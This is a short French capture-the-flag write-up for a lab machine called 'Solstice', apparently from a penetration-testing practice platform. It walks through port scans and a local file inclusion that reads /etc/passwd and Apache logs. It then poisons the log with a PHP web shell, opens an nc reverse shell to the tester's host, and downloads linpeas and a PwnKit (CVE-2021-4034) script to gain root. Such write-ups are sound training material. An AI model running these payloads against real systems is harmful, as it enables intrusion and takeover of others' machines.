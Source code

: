 # Solstice

    sudo nmap -p -sV 192.168.204.72
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.72 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.72
    feroxbuster --silent -u http://192.168.204.72

Scans classiques. 

    21/tcp    open  ftp        pyftpdlib 1.5.6
    22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    25/tcp    open  smtp       Exim smtpd
    80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
    2121/tcp  open  ftp        pyftpdlib 1.5.6
    3128/tcp  open  http-proxy Squid http proxy 4.6
    8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
    62524/tcp open  tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

J'ai essayé de me connecter en mode anonyme sur les deux ports FTP. Le premier a refusé, le deuxième a accepté mais ne contient rien.

    ftp anonymous@192.168.204.72 -P 2121
 
En revanche, il y a deux autres serveurs web sur les ports 8593 et 54787. Je commence par le 8593, l'énumération ne donne rien mais l'URL http://192.168.204.72:8593/index.php?book=list peut éventuellement amener des failles de type LFI.

Et en effet cela fonctionne avec un simple essai sur /etc/passwd :

    curl http://192.168.204.72:8593/index.php?book=../../../../../etc/passwd |  grep  -v nologin

J'ai trouvé l'utilisateur Miguel mais je n'arrive pas à récupérer de clé SSH, ou de fichier intéressant plus généralement. En revanche les logs sont bien là où elles devraient être : 

    curl http://192.168.204.72:8593/index.php?book=../../../../../var/log/apache2/access.log

Par élimination, il reste donc les failles de type Log Poisoning à essayer. La manière classique avec la modification du User-Agent semble passer et nous donne bien un reverse-shell :

    curl  -A  "BACKDOOR <?php system(\$_GET['cmd'])?>" http://192.168.204.72 
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id
    curl http://192.168.204.72:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2F  
    f%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.231%209001%20%3E%2Ftmp%2Ff
    cat /var/www/local.txt


### Élévation de privilèges classique avec un CVE : 

    wget http://192.168.45.231/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee res.txt
    ...
    wget http://192.168.45.231/CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt

